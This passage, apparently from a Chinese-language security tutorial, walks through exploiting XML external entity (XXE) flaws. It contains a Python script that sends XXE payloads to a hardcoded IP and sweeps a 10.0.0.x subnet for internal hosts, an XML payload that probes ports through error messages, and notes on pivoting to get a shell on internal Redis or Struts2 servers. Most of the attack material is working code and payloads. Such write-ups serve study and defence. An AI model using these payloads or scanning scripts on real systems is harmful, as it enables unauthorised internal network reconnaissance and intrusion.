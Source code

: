 ```python
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://34.200.157.128/CUSTOM/NEW_XEE.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
continue
```
**返回结果：**<br />**![image.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624120165579-f2e65864-56ba-422c-a6af-4aad3acf262e.png#align=left&display=inline&height=311&margin=%5Bobject%20Object%5D&name=image.png&originHeight=311&originWidth=902&size=259745&status=done&style=none&width=902)**<br />**<br />找到了内网的一台主机，想要知道攻击点在哪，我们还需要进行端口扫描，端口扫描的脚本主机探测几乎没有什么变化，只要把ip 地址固定，然后循环遍历端口就行了，当然一般我们端口是通过响应的时间的长短判断该该端口是否开放的，读者可以自行修改一下，当然除了这种方法，我们还能结合 burpsuite 进行端口探测<br />**<br />**比如我们传入：**
```xml
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
<!ELEMENT data (#PCDATA)>  
]>
<data>4</data>
```
**返回结果：**
```shell
javax.xml.bind.UnmarshalException  
 - with linked exception:
[Exception [EclipseLink-25004] (Eclipse Persistence Services): org.eclipse.persistence.exceptions.XMLMarshalException
Exception Description: An error occurred unmarshalling the document  
Internal Exception: ████████████████████████: Connection refused
```


这样就完成了一次端口探测。如果想更多，我们可以将请求的端口作为 参数 然后利用 bp 的 intruder 来帮我们探测

**如下图所示：**<br />**![image.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624120397352-2d1f2223-3687-4ee9-90c6-2d56e3af07d6.png#align=left&display=inline&height=379&margin=%5Bobject%20Object%5D&name=image.png&originHeight=379&originWidth=884&size=84940&status=done&style=none&width=884)**<br />至此，我们已经有能力对整个网段进行了一个全面的探测,并能得到内网服务器的一些信息了，如果内网的服务器有漏洞，并且恰好利用方式在服务器支持的协议的范围内的话，我们就能直接利用 XXE 打击内网服务器甚至能直接 getshell（比如有些 内网的未授权 redis 或者有些通过 http get 请求就能直接getshell 的 比如 strus2）
## Java项目XXE漏洞获取服务器密码
不知道为什么，metasploit无法捕获，已经尝试两天了，决定放弃了，以后再看看吧……
##  Java中jar协议上传文件
通过xxe读取文件目录<br />（tomcat下的XXE.war环境）<br />抓包改包，将发送包改为如下：
```xml
POST /XXE/doLogin HTTP/1.1
Host: 192.168.43.231:8080
Content-Length: 167
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
```